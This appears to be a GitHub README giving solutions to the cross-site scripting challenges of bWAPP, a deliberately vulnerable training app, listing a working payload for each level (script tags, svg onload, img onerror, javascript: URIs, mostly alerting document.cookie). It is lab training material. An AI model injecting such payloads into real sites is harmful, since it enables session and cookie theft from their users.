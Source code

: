 # XSS-BWAPP-SOLUTION
Welcome to the repository of comprehensive solutions for bWAPP's Cross-Site Scripting (XSS) challenges, meticulously curated and solved by BugBot19 (Nihar Rathod). This repository serves as a one-stop resource for anyone looking to understand and solve XSS vulnerabilities in the bWAPP (Buggy Web Application) framework.

# XSS - Reflected (GET)(LOW)
``` Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname) ```

XSS - Reflected (GET)(MEDIUM) 
Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname)

XSS - Reflected (GET)(High)
NYF

XSS - Reflected (POST)(Low)
Payload-<script>alert(document.cookie)</script>

XSS - Reflected (POST)(Medium)
Payload-<svg onload=alert(document.cookie)>

XSS - Reflected (POST)(High)
NYF

XSS - Reflected (JSON)(Low)
Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>

XSS - Reflected (JSON)(Medium)
Payload – NYF

XSS - Reflected (JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/JSON)(Low/Medium)
Payload - <marquee onclick=alert(1)>Click!!!</marquee>

XSS - Reflected (AJAX/JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/XML)(Low/Medium)
Payload - &lt;img src=&apos;#&apos; onerror=&apos;alert(document.cookie)&apos;&gt;

XSS - Reflected (AJAX/XML)(High)
Payload - <a href="javascript:x='&percnt;27-alert('BugBot19 was here')-%27';">XSS</a>


XSS - Reflected (BackButton)(Low)
Payload - ‘-alert(document.cookie)-’

XSS - Reflected (BackButton)(Medium)
Payload – javascript:alert(document.cookie)

XSS - Reflected (BackButton)(High)
Payload – Same as medium
Javascript:alert(document.cookie)

XSS - Reflected (CustomHeader)(Low)
Payload- bWAPP:<script>alert(document.cookie)</script>

XSS - Reflected (CustomHeader)(Medium)
Payload – bWAPP:<marquee onclick=alert(document.cookie)>click to win 1$</marquee>

